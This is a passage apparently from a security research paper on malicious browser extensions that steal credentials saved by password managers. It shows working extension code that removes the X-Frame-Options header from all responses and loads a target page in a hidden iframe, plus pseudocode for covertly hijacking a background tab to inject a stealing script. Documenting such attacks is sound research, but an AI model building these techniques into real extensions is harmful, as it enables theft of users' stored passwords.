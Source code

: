 	\begin{code}
		\begin{lstlisting}
chrome.webRequest.onHeadersReceived.addListener(function(details) { 
	details.responseHeaders.forEach(function(header, index){
		if(header.name.toLowerCase() === "x-frame-options"){
			details.responseHeaders.splice(index,1);
		}
	});
	return({responseHeaders: details.responseHeaders});
},
{urls: ['https://*/*', 'http://*/*']}, ['blocking', 'responseHeaders']);
\end{lstlisting}
		\caption{Extension code to remove the \texttt{X-Frame-Options} header from any incoming web request.}
		\label{backgroundRemoveXFrameOptionsHeader}
	\end{code} 
	
	\begin{code}
		\begin{lstlisting}
if(window.self === window.top) {
	chrome.runtime.sendMessage({get: 'url'}, function(response) {
		if(response.url) {
			var newIframe = document.createElement('iframe');
			newIframe.setAttribute('style', 'display: none;');
			newIframe.setAttribute('src', response.url);
			document.body.appendChild(newIframe);
		}
	});
}
else { ... }
\end{lstlisting}
		\caption{Content script to open a particular web page in an iframe.}
		\label{contentScriptOpenWebPageInIframe}
	\end{code}
	
	The second and third technique work very similar. Both use the browser's tab system to open a particular web page and inject a content script in it to steal probably stored credentials. The source code of each technique contains more than 20 lines. Therefore, we refrained from showing the concrete implementation but instead include pseudocode for both which we show in \autoref{backgroundOpenPageInNewBackgroundTab} and \autoref{backgroundOpenPageInInactiveTab}. Both implementation inject the content script which we have shown in the previous section in \autoref{contentScriptStealCredentialsFromPasswordManager} to steal probably stored credentials in the newly loaded web page.
	
	\begin{code}
		\begin{lstlisting}
tab = getAnyActiveTab();
storedURL = tab.url;
tab.update(targetURL);
tab.onFinishedLoading = function() {
	tab.executeScript();
}

onMessageFromContentScript = function() {
	tab.update(storedURL);
}
\end{lstlisting}
		\caption{Pseudo code to open a particular web page in an inactive tab to steal probably stored credentials.}
		\label{backgroundOpenPageInInactiveTab}
	\end{code}
	

